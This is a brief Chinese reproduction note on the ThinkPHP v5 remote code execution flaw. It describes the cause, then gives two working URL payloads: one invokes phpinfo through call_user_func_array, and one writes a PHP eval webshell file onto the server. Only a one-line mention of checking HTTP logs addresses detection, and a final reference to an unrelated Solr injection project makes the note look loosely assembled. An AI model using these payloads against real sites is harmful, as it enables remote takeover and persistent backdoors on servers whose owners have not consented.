

### 参考

freebuf上比较全面的复现及分析：https://www.freebuf.com/vuls/191847.html

### 影响范围

v5
### 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

### 复现

复现环境： thinkphp5.0.12

看了上面的那篇文章，才知道win平台与linux平台payload不太一样，我这里是linux平台。

**写phpinfo**

`/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**写一句话木马**

`/index.php/?s=index/\think\template\driver\file/write&cacheFile=axin.php&content=<?php @eval($_POST[axin]);?>`

### 痕迹分析

直接查看http日志

### 参考

https://github.com/artsploit/solr-injection